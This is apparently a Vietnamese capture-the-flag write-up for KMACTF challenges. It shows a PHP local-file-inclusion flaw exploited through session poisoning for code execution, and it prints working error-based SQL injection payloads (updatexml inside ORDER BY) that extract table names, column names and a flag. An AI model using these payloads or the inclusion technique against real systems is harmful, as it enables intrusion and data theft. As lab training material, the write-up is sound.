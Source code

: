 # RCE ME 

## PHÂN TÍCH

Vào trang web của bài này ta thấy được như sau.

![](images/2022-01-24-07-50-22.png)

Sau một hồi test thì mình biết nó dính LFI và mình sài PHP wrapper thử đọc file index.php thì mình được như sau.

![](images/2022-01-24-07-52-59.png)

Đem đi decode base64 ta có được source code như sau.

```
<?php
session_start();
$_SESSION['name'] = @$_GET["name"];
$l = @$_GET['l'];
if ($l) include $l;
?>
<h1>Try rce me!</h1>
<h2>
  <a href="?l=/etc/passwd">?l=/etc/passwd</a>
</h2>
```

Ta thấy source code có lấy vào một tham số `name` từ GET request để gán giá trị vào biến SESSION. Thử gán giá trị `name=d47` và dọc file session để xem như nào.

![](images/2022-01-24-07-58-42.png)

Vậy giờ ý tưởng là ta sẽ ghi nội dung là một đoạn code php và sau đó gọi đến file này để thực thi code PHP 

## KHAI THÁC

![](images/2022-01-24-08-07-13.png)

![](images/2022-01-24-08-07-32.png)

RCE thành công 


# Try SQL MAP

## PHÂN TÍCH

Như tên bài , thì đây là bài SQLi ở lệnh ORDER BY 

Câu truy vấn có thể sẽ như sau.

> SELECT column_name from table_name order by $_GET[order]

Ở bài này xài UPDATEXML để lấy các tables, columns ở trong db 


## KHAI THÁC

PAYLOAD ĐỂ LẤY TÊN BẢNG

> 0^updatexml(0,concat(0xa,(select(mid(table_name,1,32))from(information_schema.tables)limit+1)),0)

Do kết quả trả về chỉ giới hạn 32 kí tự nên ta cần thực hiện 2 lần câu query để lấy đầy đủ tên bảng

> 0^updatexml(0,concat(0xa,(select(mid(table_name,32,32))from(information_schema.tables)limit+1)),0)

Table name: flahga123456789xxsxx012xxxxxxxxx34567xx1

PAYLOAD ĐỂ LẤY TÊN CỘT

> 0^updatexml(0,concat(0xa,(select(mid(column_name,1,32))from(information_schema.columns)limit+1)),0)

Column name: flag 

PAYLOAD ĐỂ LẤY FLAG

> PART1: 1^updatexml(0,concat(0,(select(mid(flag,1,32))from(flahga123456789xxsxx012xxxxxxxxx34567xx1))),0)

> PART2: 1^updatexml(0,concat(0,(select(mid(flag,33,32))from(flahga123456789xxsxx012xxxxxxxxx34567xx1))),0)

> PART3: 1^updatexml(0,concat(0,(select(mid(flag,65,32))from(flahga123456789xxsxx012xxxxxxxxx34567xx1))),0)

FLAG: KMACTF{X_Ooooooooooooorder_By_Noooooooooooooooooooone_SQLMaaaaaaaaaaaap?!!!!!!!!!!!!}


# RCE 2

Bài này lần đầu mình gặp, may có hint của tác giả có cho link của lỗi này. Sau đó mình sửa lại một chút là đọc được flag.

Link tham khảo: https://bierbaumer.net/security/php-lfi-with-nginx-assistance/

File exploit mình để ở trên [rce2.py](rce2.py)

# Fast and furious

Đây là 1 bài programming, cho ta một dãy và yêu cầu ta sắp xếp dãy đó.

Script [fast.py](fast.py)
